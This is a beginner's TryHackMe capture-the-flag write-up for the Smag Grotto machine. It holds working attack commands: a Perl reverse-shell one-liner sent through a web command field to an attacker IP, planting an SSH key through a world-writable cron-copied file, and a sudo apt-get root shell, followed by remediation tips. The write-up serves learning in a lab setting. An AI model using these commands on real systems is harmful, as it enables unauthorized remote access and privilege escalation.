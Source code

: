 <p style='font-size: 200px' align="center">
  THM : CTF Smag Grotto<br>
  <img src="https://i.imgur.com/o08Runb.png">
</p>

## Table of contents
- [Step 1 : Nmap Scan](#step-1--nmap-scan)
- [Step 2 : Website enumeration](#step-2--website-enumeration)
- [Step 3 : Exploiting the website to get a reverse-shell](#step-3--exploiting-the-website-to-get-a-reverse-shell)
- [Step 4 : Get access to another user than www-data](#step-4--get-access-to-another-user-than-www-data)
- [Final step : Privilège escalation](#final-step--privilege-escalation)
- [Conclusion](#conclusion)


## Step 1 : NMAP Scan
First , we need to scan the target to find open ports.  
```nmap 10.10.21.185 -A -oN nmapResult``` (I always store the nmap scan result in a file).    
![alt text](https://i.imgur.com/qnZT0cl.png)  
We see 2 open ports :  
- port 22 for ssh  
- port 80 for http -> the target has a website that we can enumerate.  

## Step 2 : Website enumeration
Let's see the website  
![alt text](https://i.imgur.com/PSy4ni0.png)  
Ok, so now we know that this website is under development.  
I start a dirb scan on the target website.
```dirb http://10.10.21.185/ -o dirbResult```  
(Same as nmap, i always store dirb scan result in a file).  
![alt text](https://i.imgur.com/Ezv6GfQ.png)  
We see that dirb found a mail directory ! Let's see what we have at ```http://10.10.21.185/mail/```  
![alt text](https://i.imgur.com/uME2QT1.png)  
There is a pcap file. This can be really useful to find credentials used to connect to the target with diferrent protocols.  
Also, we have three possible logins : 
- ```netadmin@smag.thm```  
- ```uzi@smag.thm```  
- ```jake@smag.thm```  


We also maybe have a domain name : smag.thm  
![alt text](https://i.imgur.com/9p3t4NF.png)  



So we found some interesting things in this pcap file :   
- In the pcap file, there is a hostname : ```development.smag.thm```  
- There is also credentials used in a login.php page  

To access the website development section, I added the line ```10.10.21.185    development.smag.thm``` to the file ```/etc/hosts``` on my machine.  
Now, if a enter ```http://development.smag.thm/``` in the address bar, i enter the hidden development section of the website.  
![alt text](https://i.imgur.com/zSFc88j.png)  


There is two files in here :
- admin.php -> if not logged in, it redirects us to login.php.  
- login.php -> here we can use the credentials we found before in the pcap file.  


So let's try to use the credentials we found in the pcap file to login on the login.php page.
![alt text](https://i.imgur.com/SmbKqGc.png)  


And we are logged in !  
We are automatically redirected to admin.php.  
![alt text](https://i.imgur.com/puRBFr4.png)  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
![alt test](https://i.imgur.com/Clnpl84.png)  


Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
![alt text](https://i.imgur.com/bHf9Wk3.png)  
(And yes the ip address of the target has changed, it's because I restarted the machine... it's a long story...)  

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
![alt text](https://i.imgur.com/4JoLmKd.png)  


We have the user jake, remember, we saw this name before in the /mail directory of the website.  So maybe we can try to connect to the machine as jake. But how can do this ? First I looked in the jake's home directory ```/home/jake```.  
![alt text](https://i.imgur.com/J1zPHY0.png)  


We can see that there is a file named ```.sudo_as_admin_successful```, that means that the user jake succesfully executed a command with sudo in the past. We can keep that in mind. We can't read any useful files, and we can't even go to the .ssh directory to try to find private ssh key... The next thing i've done was to check the crontab ```cat /etc/crontab```. 
![alt text](https://i.imgur.com/Lr8wf9Z.png)


One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
![alt text](https://i.imgur.com/YxCuEme.png)  


And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
![alt text](https://i.imgur.com/OWYhdS2.png)  


We now have two files :
- jake_id_rsa -> the private key we are going to use to connect with SSH.
- jake_id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And the we can connect with SSH as jake to the machine with ```ssh jake@10.10.24.178 -i jake_id_rsa```.  
![alt text](https://i.imgur.com/CgAIAtx.png)


We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
![alt text](https://i.imgur.com/bhPQu8t.png)

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
![alt text](https://i.imgur.com/mDH59MY.png)  


We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![alt text](https://i.imgur.com/OQHoMBe.png)  
And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
![alt text](https://i.imgur.com/NhQZMuR.png)  
And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
![alt text](https://i.imgur.com/Ln7GE8p.png)  


## Conclusion
- Mails shouldn't be publicly accessible.
- There shouldn't be a publicly accessible pcap file.
- www-data user should'nt have write permissions on the file ```/opt/.backups/jake_id_rsa_pub.backup```. Maybe we can change the owner of the file with ```chown jake /opt/.backups/jake_id_rsa_pub.backup```and then, delete the write permission for other users than jake with ```chmod 600 /opt/.backups/jake_id_rsa_pub.backup```. So now only user jake can read or write to this file.
- Maybe we can filter commands on the website to avoid reverse shells

Thanks for reading my first write up ! (PS : I'm a beginner in pentesting and CTFs and english is not my native language).
